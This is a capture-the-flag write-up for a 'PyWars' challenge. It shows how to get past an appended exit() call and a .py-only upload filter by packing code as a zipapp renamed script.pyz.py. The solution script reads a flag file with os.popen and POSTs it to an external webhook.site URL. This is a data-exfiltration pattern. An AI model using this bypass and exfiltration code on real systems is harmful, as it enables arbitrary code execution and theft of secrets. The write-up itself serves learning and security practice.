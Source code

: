 # ♖ PyWars ♖
> Author: 堇姬Naup

## analyze
Go to read source code.
You can upload one python file, it will add `exit()\n` on your upload's file and use `python3 <your upload python file>`.
So if you can bypass code which it add. You will execute any python's code.

Let me look how to bypass.
Read python's document, we will read this
https://docs.python.org/3.14/library/zipapp.html

You can pack your `.py` to `.pyz`
If we add some bytes in front of `zip's magic number`, it still can be execute.
And then pyz can use `python3 script.pyz`.

```
00000000: 504b 0304 1400 0000 0000 9753 7f5a dc1b  PK.........S.Z..
00000010: 5faa 2e02 0000 2e02 0000 0b00 0000 5f5f  _.............__
```
So we write code at `script/__main__.py`, and pack it to pyz.

OK, let me review code.
It have filter, and just upload `.py`
But we can use `script.pyz.py`, it can bypass its filter.

## script
run.sh
```sh
python3 -m zipapp script
mv script.pyz script.pyz.py
```

script/\__main\__.py
```py
import urllib.request
import os
import json

flag = os.popen('cat /app/flags/flag_7fc489cb-4e06-4cc8-9404-f856816c2033.txt').read().strip()
url = 'https://webhook.site/4942a284-d09e-417c-9039-d335aaf9af4b'
data = json.dumps({'flag': flag}).encode('utf-8')
req = urllib.request.Request(url, data=data, headers={'Content-Type': 'application/json'}, method='POST')

try:
    response = urllib.request.urlopen(req)
    content = response.read()
    print(f"success: {content.decode('utf-8')}")
    
except urllib.error.URLError as e:
    print(f"error: {e}")
```

We use request send flag to your server.
